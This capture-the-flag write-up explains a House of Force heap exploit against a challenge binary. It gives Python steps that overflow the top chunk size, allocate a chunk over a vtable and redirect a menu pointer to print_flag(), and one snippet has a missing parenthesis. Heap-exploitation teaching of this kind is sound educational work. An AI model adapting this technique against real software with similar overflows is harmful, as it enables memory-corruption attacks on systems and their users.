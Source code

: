 Usually, **House of Force** would require a heap address leak to gain an arbitrary write. However, in this challenge, we can simply write the address of `print_flag()` into `vtable`, which is stored on the heap. This does not require a heap address leak, as the address we want to overwrite (`vtable`) is relative to the chunks allocated by us.

The exploitation process is as follows:  
1. Using the heap overflow, overwrite the `top_chunk` with `0xffffffffffffffff`. This would allow us to allocate a chunk with an absurdly large size.
2.  Allocate a chunk with a size of `offset`. As the address of `vtable` is less than the address of the `top_chunk`, `offset` is calculated by: `offset = -(top_chunk - target + chunk_size)`. `chunk_size` refers to the size of the final chunk we will allocate.
3. Allocate a final chunk, this chunk will be allocated at the address of `target`.
4. Using `edit()`, overwrite the one of the `vtable` pointers with `print_flag()`.
5. Call `print_flag()` normally using the menu options.

To overwrite the `top_chunk`, we simply allocate a chunk of size 8 and use `edit()` to overflow the `top_chunk`.
```python
# Overwrite top chunk size with 0xffffffffffffffff
payload = "A"*24 + p64(0xffffffffffffffff)
malloc(8, "A"*8)
edit(0, 64, payload)
```

We then calculate the `offset` with the method mentioned above. The addresses of `vtable` and `top_chunk` can be obtained by analyzing the heap using `gdb`. Note that their values will be different every run.
```python
# Calculating the value of offset    
target = 0x1802860  # Address of vtable
top_chunk = 0x18028f0
offset = top_chunk - target + 8
```

The chunk with size `offset` is then allocated:
```python
# Allocate absurdly large chunk, which will wrap around memory
malloc(-offset, p64(0x0))
```

The final chunk we allocate will be at the address of `vtable`. This is the chunk we use to overwrite one of the `vtable` pointers.
```python
# Allocate chunk at vtable
malloc(8, p64(0xdeadbeef)
```

We edit the final chunk and overwrite the value of the first `vtable` pointer, which is the function that is called when we select `1` on the menu.
```python
# Overwrite first option in vtable with print_flag()
print_flag = 0x0000000000400D51
payload = "A"*56 + p64(print_flag)
edit(2, 100, payload)
```
